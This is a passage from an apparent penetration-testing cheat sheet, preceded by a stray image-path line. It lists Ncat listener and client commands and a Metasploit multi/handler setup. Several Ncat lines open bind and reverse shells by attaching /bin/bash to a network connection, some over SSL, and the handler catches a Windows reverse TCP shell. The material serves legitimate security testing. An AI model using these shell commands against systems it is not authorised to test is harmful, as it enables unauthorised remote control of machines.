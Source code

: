For more options run `man curl` or `curl -h`.

<p id="ncat"/>

### Ncat

[Server] Set up a listener:

```fundamental
ncat -nvlp 9000

ncat -nvlp 9000 > received_data.txt

ncat -nvlp 9000 -e /bin/bash

ncat -nvlp 9000 -e /bin/bash --ssl

ncat -nvlp 9000 --ssl-cert "sws_crt.pem" --ssl-key "sws_key.pem"

ncat -nvlp 9000 --keep-open <<< "HTTP/1.1 200 OK\r\n\r\n"
```

[Client] Connect to a remote host:

```fundamental
ncat -nv 192.168.8.5 9000

ncat -nv 192.168.8.5 9000 < sent_data.txt

ncat -nv 192.168.8.5 9000 -e /bin/bash

ncat -nv 192.168.8.5 9000 -e /bin/bash --ssl

ncat -nv 192.168.8.5 9000 --ssl-cert "sws_crt.pem" --ssl-key "sws_key.pem"
```

For more options run `man ncat` or `ncat -h`.

Find out how to create an SSL/TLS certificate from my other [project](https://github.com/ivan-sincek/secure-website/tree/master/crt).

<p id="multi-handler"/>

### multi/handler

Set up a `multi/handler` module (change the PAYLOAD, LHOST and LPORT as needed):

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 127.0.0.1

set LPORT 9000

exploit
```
